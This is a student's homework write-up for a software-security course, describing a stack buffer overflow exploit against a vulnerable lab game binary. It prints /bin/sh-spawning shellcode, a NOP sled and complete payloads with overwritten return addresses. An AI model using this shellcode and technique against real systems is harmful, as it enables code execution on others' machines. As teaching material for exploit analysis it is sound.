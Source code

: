 ```yaml
---
title: "Duke Nukem II"
layout : blog-posts
permalink: /duke-nukem/
---
```

<body>
    <div class="container">
        <h1>Buffer Overflow Attacks and Exploitation</h1>
        <p>Buffer overflow attacks are a type of software vulnerability where an attacker can overwrite memory beyond a buffer's boundary. This can lead to unauthorized code execution, crashes, or other malicious behavior.</p>

        <h2>Types of Buffer Overflow Attacks</h2>
        <ul>
            <li><strong>Stack-based buffer overflows:</strong> Overwriting the call stack of a program to redirect code execution.</li>
            <li><strong>Heap-based buffer overflows:</strong> Exploiting dynamic memory allocations to corrupt heap metadata or redirect control flow.</li>
        </ul>

        <h2>Exploitation Approaches Taught in Class</h2>
        <p>In class, we covered three main approaches for exploiting buffer overflow vulnerabilities:</p>
        <ul>
            <li><strong>Ballpeen Hammer:</strong> A precise exploitation method requiring detailed memory analysis and controlled payloads.</li>
            <li><strong>Sledgehammer:</strong> A brute-force approach with less precision but potentially effective in simpler scenarios.</li>
            <li><strong>Tweezer:</strong> A highly targeted method requiring in-depth debugging and analysis of specific instructions.</li>
        </ul>

        <h2>Homework Overview</h2>
        <p>Our homework focuses on exploiting a vulnerable binary by analyzing and leveraging a stack-based buffer overflow. Key tasks include:</p>
        <ul>
            <li>Setting up the binary for analysis using tools like GDB and Ghidra.</li>
            <li>Identifying and triggering the backdoor function in the binary.</li>
            <li>Developing and deploying payloads using the ballpeen hammer and sledgehammer approaches.</li>
        </ul>

        <h3>Resources Needed</h3>
        <ul>
            <li>GDB for debugging.</li>
            <li>Ghidra for binary analysis.</li>
            <li>Sample binary and exploit wrapper files.</li>
        </ul>

        <h3>Video of Backdoor Function Execution</h3>
        <p>A demonstration video showcasing the backdoor function being triggered in the game will be provided as part of the homework submission.</p>

        <h2>Ballpeen Hammer Approach</h2>
        <ol>
            <li>Configure remote debug configuration in Eclipse.</li>
            <li>Start the gdbserver on port <code>2345</code> (default port for gdbserver).</li>
            <li>Start debugging and play the game to trigger the backdoor.</li>
            <li>Suspend the program in Eclipse and analyze the stack:</li>
                <ul>
                    <li>First address on the stack: <code>0x55555574933e</code></li>
                    <li>Second address (wrapper function): <code>0x5555557492a2</code></li>
                </ul>
            <li>Set breakpoints at the backdoor and vulnerable function call addresses.</li>
            <li>Suspend the program in eclipse. On the left, the first address (in memory : 0x55555574933e) at the top of the stack is where the backdoor function is being called from (can be verified by tracing the commands being executed -- as seen in the decompiler view for the backdoor function in ghidra).
                This means that the second address (0x5555557492a2) on the call stack would be inside the function that is calling this backdoor function (called the wrapper function -- which also calls the vulnerable_fn function whose address in memory is 0x555555749774). This can be verified from the fact that there is a call to the address (in memory) of the backdoor_func function (0x5555557492e2) and vulnerable_fn function (0x555555749774). 
            </li>
            <li>Put two breakpoints : one at the call address of the backdoor_func function and one at the call address of the vulnerable_fn function.</li>
            <li>There are a couple of things we need to note down to mount the ballpeen stacksmashing exploit. These include :
                <ol>
                    <li>Shellcode -- to spawn a shell
                        The shellcode can be retrieved from our previous exercise (https://gitlab.com/softwaresecuritylearning/stacksmashexploit/-/blob/master/src/exploitWrapper.c?ref_type=heads) :
                        <pre><code>\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90</code></pre>
                            The length of this shellcode is 63 bytes.
                    </li>
                    <li>
                        Return address of the destination buffer that needs to be overwritten -- which the stack pointer will return to
The return address of the destination buffer :
Navigate to the call address of the vulnerable_fn. Scroll down a bit. You'll be able to see where the memcpy function is being called from. Put a breakpoint at the memcpy function. Resume the program.
We can input some dummy values here for now since we're only looking for the RA of the dst buffer.
Suspend the program again. Put the debugger in instruction stepping mode, and STEP INTO the memcpy function. Navigate to the registers tab and note down the values of the rbp and the rdi of the buffer. <br>
address of memcpy in memory : 0x55555557ada0 <br>
address of rdi after stepping in memcpy once : 0x7fffffffc170 <br>
address of rbp after stepping in memcpy once : 0x7fffffffc2f0
                    </li>
                    <li>
                        Length of the space in memory that needs to be overwritten till we reach the rbp value -- this will be the length of the shellcode + length of the spacer
We can calculate the length of the destination buffer being passed to memcpy now = rbp - rdi = 384
                    </li>
                    <li>
                        Spacer -- NOP commands till we reach the rbp value that needs to be overwritten
We know that the shellcode would occupy 63 bytes of this buffer. So the length of the spacer (nops) = 384 - 63 = 321
spacer : \x90 * 321 :
<pre><code>\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90</code></pre>
                    </li>
                    <li>
                        This buffer would be accompanied with the rbp and RA we need to overwrite i.e. the rbp of memcpy and rdi of the buffer after stepping into memcpy once.
Therefore, input tainted buffer : shellcode + spacer + rbp + RA :
<pre><code>\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xf0\xc2\xff\xff\xff\x7f\x00\x00\x70\xc1\xff\xff\xff\x7f\x00\x00
</code></pre>
Notice that we have appended 2 bytes of 0s to the values of rdi and rbp (to make them 8 bytes in total). Make sure to type them in reverse order as shown above according to the little endian format.
                    </li>
                </ol>
            </li>
                </ul>
        </ol>

        <h2>Sledgehammer Approach</h2>
        <p>In this method, we fill the buffer with random data of length 400 and observe its effects. The one I used to achieve this is: </p>
        <pre><code>\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
        </code></pre>
        <h2>Some Important Memory Addresses that might be useful while debugging</h2>
        <ul>
            <li>
                address of the backdoor_func function in memory : <code>0x5555557492e2</code>
            </li>
            <li>
                address where it is being called from : <code>000055555574929d</code>
            </li>
            <li>
                address of the vulnerable_fn function in memory : <code>0x555555749774</code>
            </li>
            <li>
                address where it is being called from : <code>00005555557492b4</code>
            </li>
            <li>
                rbp of the vulnerable_fn : <code>0x7fffffffc330</code>
            </li>
            <li>
                rdi of the vulnerable_fn value : <code>0x7fffffffc170</code>

            </li>
            
   
        </ul>
    </div>

</body>


</html>